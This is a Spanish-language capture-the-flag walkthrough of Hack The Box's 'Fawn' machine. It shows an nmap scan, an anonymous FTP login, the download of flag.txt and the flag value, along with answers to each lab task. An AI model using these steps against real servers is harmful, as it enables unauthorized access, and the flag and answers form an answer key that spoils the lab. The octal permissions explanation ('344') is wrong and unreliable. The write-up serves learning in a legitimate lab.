

Como segundo articulo de máquinas de Hack The Box veremos en esta oportunidad la máquina **Fawn**, un reto de la sección Starting Point. Se documentaran las tareas y pasos necesarios para pwnear la máquina víctima. (●'◡'●)

### HAPPY HACKING!



**Dificultad:** Very Easy

**Tags:** FTP | Protocolos | Reconocimiento | Anonimato/Acceso Invitado


## Tareas:

1. ¿Qué significan las 3 letras del acrónimo FTP?   
Respuesta: *File Transfer Protocol*

2. ¿Qué puerto utiliza el servicio FTP para usualmente estar a la escucha?   
Respuesta: *21*

3. FTP envía datos en texto plano, sin ningún tipo de cifrado. ¿Qué acrónimo se utiliza para un protocolo posterior diseñado para proporcionar una funcionalidad similar a FTP pero de forma segura, como una extensión del protocolo SSH?   
Respuesta: *SFTP*

4. ¿Cuál es el comando que podemos usar para enviar una solicitud de eco ICMP para probar nuestra conexión con el objetivo?    
Respuesta: *ping*

5. Basandonos en nuestro escaner, ¿Qué version de FTP esta corriendo en el objetivo?    
Para esto, como en la máquina anterior utilizaremos la herramienta `nmap`

```
kali@kali:~$ sudo nmap -p- -sS -sCV -T5 --open -vvv -n -Pn 10.129.152.96
```

Resultado del escaneo:
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
```
En "VERSION" tenemos la respuesta    
Respuesta: *vsftpd 3.0.3*

:::TIP[OJO]
Como dato curioso al hacer el escaner podemos ver 2 cosas extra
:::

Podemos ver que se ha permitido el acceso anónimo al servidor FTP. el codigo de respuesta 230 es el código estándar en FTP para indicar que el inicio de sesión fue exitoso
```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
Y aquí podemos ver la flag

```
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
```
 
Los permisos del archivo son RWRR como notación simbólica de permisos ó 344 en notación octal.
Esto significa que el     
**Propietario** tiene permisos: R (lectura) y W (Escritura)  
**Grupo** tiene permisos: R(lectura) y  
**Otros** tiene permisos: R(lectura)  

El primer 0 corresponde al **"ID usuario propietario"**, es común que el id 0 corresponda al usuario "root"   
El segunto 0 corresponde al **"ID del grupo propietario"** 


6. En base a nuestro escaner, ¿Qué sistema operativo esta utilizando el objetivo?

Para responder esto, adjuntare el output completo del escaneo hecho previamente con `nmap`

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.87
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```
Respuesta: *Unix*

:::TIP
Aquí no fue necesario pero podemos ver el sistema operativo con el comando "nmap -O"
:::


7. ¿Cuál es el comando que debemos ejecutar para mostrar el menú de ayuda del cliente `ftp`?   
Respuesta: *ftp -h*   
(-h viene de help)

8. ¿Cuál es el nombre de usuario que se usa en FTP cuando deseas iniciar sesión sin tener una cuenta?

Por default uno puede ingresar por ftp con el usuario anonymous, sin necesidad de contraseña    
Respuesta: *anonymous*

Probemos!   
Primero ingresamos con ftp y utilizamos la ip de la máquina víctima
```
kali@kali:~$ ftp 10.129.152.96
Connected to 10.129.152.96.
220 (vsFTPd 3.0.3)
```
Conectados!, ahora necesitamos el nombre de usuario y contraseña
```
Name (10.129.152.96:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> 
```
Listo, utilizamos como usuario *anonymous* y como contraseña nada.

9. ¿Cuál es el código de respuesta que obtenemos para el mensaje de FTP 'Login successful'?

Como vimos en la tarea anterior, la respuesta a un ingreso exitoso es
```
230 Login successful.
```
Respuesta: *230*

10. Hay un par de comandos que podemos usar para listar los archivos y directorios disponibles en el servidor FTP. Uno es dir. ¿Cuál es el otro que es una forma común de listar archivos en un sistema Linux?

El comando más común para ver archivos dentro de un directorio es `ls`

```
ftp> ls
229 Entering Extended Passive Mode (|||57537|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```
Y aquí nos encontramos nuevamente con `flag.txt`

Respuesta: *ls*

11. ¿Cuál es el comando que podemos utilizar para descargar el archivo que encontramos en el servidor FTP?

Intentemos leer el contenido de `flag.txt`

```
ftp> cat flag.txt
?Invalid command.
```
No podemos leerlo   
Por lo tanto nuestra mejor opción es descargarlo, como estamos por *File Transfer Protocol*

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||27394|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*********************************|    32      172.65 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.19 KiB/s)
```
:::TIP[OJO]
Por default cuando haces *get flag.txt* el archivo se enviará al directorio donde te encuentras situado
:::

Puedes indicar donde quieres que se envie el archivo de la siguiente forma:
```
kali@kali:~$ get flag.txt /ruta/donde/quieres/guardar/flag.txt
```
Para enviar un archivo por FTP puedes utilizar `put`
```
kali@kali:~$ put /home/usuario/Documentos/flag.txt
```

Respuesta: *get*

12. Envía la flag

Ahora que ya tenemos el archivo en nuestra máquina solo queda leerlo

```
kali@kali:~/Desktop$ cat flag.txt                    
───────┬───────────────────────────────────────────────
       │  File: flag.txt
───────┼───────────────────────────────────────────────
   1   │  035db21c881520061c53e0536e44f815
───────┴───────────────────────────────────────────────
```


### Felicitaciones por completar la máquina Fawn de Hack The Box
Esta es la segunda máquina completada del starting point, espero que este WriteUp te haya sido útil para entender conceptos básicos de redes y hacking, nos vemos en la siguiente máquina!


